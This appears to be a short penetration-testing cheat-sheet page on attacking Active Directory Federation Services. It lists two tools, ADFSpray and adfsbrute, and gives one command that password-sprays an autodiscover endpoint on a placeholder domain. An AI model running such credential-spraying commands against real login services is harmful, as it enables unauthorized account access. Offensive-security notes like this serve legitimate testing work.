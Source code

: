 ```yaml
---
description: Active Directory Federation Services
---
```


# ADFS




## Tools



### ADFSpray

- [https://github.com/xFreed0m/ADFSpray](https://github.com/xFreed0m/ADFSpray)

Spray at autodiscover (NTLM auth) endpoint:

```
$ python3 ADFSpray.py -U users.txt -p 'Passw0rd!' -t 'https://autodiscover.megacorp.com/autodiscover/autodiscover.xml' autodiscover
```



### adfsbrute

- [https://github.com/ricardojoserf/adfsbrute](https://github.com/ricardojoserf/adfsbrute)
